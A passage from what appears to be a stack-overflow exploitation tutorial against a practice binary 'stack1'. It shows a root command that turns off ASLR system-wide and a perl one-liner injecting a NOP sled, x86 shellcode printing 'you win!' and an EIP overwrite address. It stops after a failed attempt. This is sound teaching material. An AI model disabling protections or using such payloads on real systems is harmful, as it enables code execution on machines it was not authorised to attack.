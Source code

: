 On systems that support [brk](https://wiki.ubuntu.com/Security/Features#brk_ASLR) [ASLR](https://wiki.ubuntu.com/Security/Features#Address_Space_Layout_Randomisation_.28ASLR.29), the
`/proc/sys/kernel/randomize_va_space` file stores a value of 2. On other
systems it stores a value of 1 by default to indicate the presence of
vanilla `ASLR`. Modifying this file with a value of 0 will immediately
turn off this feature for all newly spawned processes:

```bash
# cat /proc/sys/kernel/randomize_va_space
2
#
# echo 0 > /proc/sys/kernel/randomize_va_space
#
# ./stack1
buf: bffff4d4 cookie: bffff524
AAAA
#
# ./stack1
buf: bffff4d4 cookie: bffff524
AAAA
#
# ./stack1
buf: bffff4d4 cookie: bffff524
AAAA
```

For all the 3 invocations of `stack1` program, the locations for `buf`
(`0xbffff4d4`) and `cookie` (`0xbffff524`) remains constant. Since the `buf`
is always placed at a known static address, we could use it for EIP
redirection. Let's proceed to the exploitation phase. Since the
shellcode is of size 38B and the `buf` is located at an offset of 88B
from the EIP, we have a junk space of 50B. We could use this space to
increase the reliability of our exploit by adding a NOP sled at the
start of our shellcode. This although is not required as we are already
aware of the location of our shellcode. But we still have to fill this
space with junk bytes to reach the offset of EIP. Let's craft a perl
command-line to inject our shellcode at the location where this correct
address could be overwritten. However, we were not able to get the
shellcode executed:

```bash
./stack1
buf: bffff4d4 cookie: bffff524
AAAA
#
# perl -e 'print "\x90"x50 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21\x0a" . "\xd4\xf4\xff\xbf"' | ./stack1
buf: bffff4d4 cookie: bffff524
```

Sadly, it did not work. The offset calculation was correct, address for
EIP overwrite also points to our shellcode, and we actually have a
working shellcode that, if executed, should display the winning message.
What could have gone wrong? A GDB analysis could help but this specific
issue could be debugged without using it. Have a look at the shellcode
once again:
